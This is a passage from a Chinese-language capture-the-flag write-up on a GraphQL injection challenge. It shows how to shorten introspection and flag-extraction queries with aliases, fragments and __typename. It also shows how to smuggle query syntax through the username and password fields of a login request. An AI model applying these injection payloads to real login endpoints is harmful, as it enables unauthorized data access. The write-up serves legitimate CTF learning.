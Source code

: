 ```graphql
                              fields {
                                name
                                type { name }
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

拿到 schema 之后，就可以查询 flag 了。利用 `login` 中的 `username` 进行回显，需要给 `ok` 和 `isAdmin` 填东西，让 `ok` 为 truthy。如果都查 flag，整个询问太长，无法通过一开始的 256 长度限制，但后来这个限制被放宽了，所以就够了：`secret {{ ok: {query} isAdmin: {query} username: {query} }}`

我有四种询问构造方法可以缩短长度：

-   可以使用 `__typename`：`login: secret {{ ok: __typename isAdmin: __typename username: {query} }}`

-   实际上，观察代码可以发现，如果缺少 `isAdmin` 字段，虽然会返回“登录失败”，但此时 `session['username']` 已赋值，可以拿到回显，所以不需要 `isAdmin` 字段：`login: secret {{ ok: {query} username: {query} }}`

-   可以使用 fragment 把重复的 flag 查询提取出来：
    ```python
    f'''
    login: secret {{
        ok: secret_{xxx} {{ ... i }}
        isAdmin: secret_{xxx} {{ ... i }}
        username: secret_{xxx} {{ ... i }}
      }}
      ... l
    }}
    fragment i on Secret_{yyy} {{
      {inner_query}
    }}
    fragment l on Query {{
        x: #'''
    ```

-   还可以找到最浅的叶子节点（scalar value）代替 flag 放到 `ok` 和 `isAdmin`。根据 schema 的随机生成方式，有 94% 的概率（没算错的话）payload 长度能在 256 以内；如果你非常不幸，可以重开题目。

除了上面这些查询构造方法，还可以在发送 payload 时同时利用 `username` 和 `password`，只不过由于 `username` 长度限制太小，这个优化效果不大：`username` 填 `",$password:String=""){login:#`，`password` 填 `\n{payload}x:#`，可以省下 `){login:`。另外，把 object 放前面 scalar 放后面可以利用大括号省去一个空格。
